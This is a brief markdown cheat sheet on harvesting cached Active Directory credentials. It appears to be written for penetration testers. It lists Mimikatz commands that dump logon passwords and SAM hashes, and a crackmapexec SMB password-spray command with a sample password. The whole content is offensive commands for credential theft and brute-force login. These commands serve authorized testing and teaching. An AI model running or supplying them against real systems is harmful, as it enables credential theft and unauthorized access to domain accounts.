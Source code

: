 # Cached AD Credentials

## Mimikatz

```shell
sekurlsa::logonpasswords
lsadump::sam
```

## Password Spray

```shell
crackmapexec smb <IP> -u users.txt -p 'Password123!' -d domain --continue-on-success
```
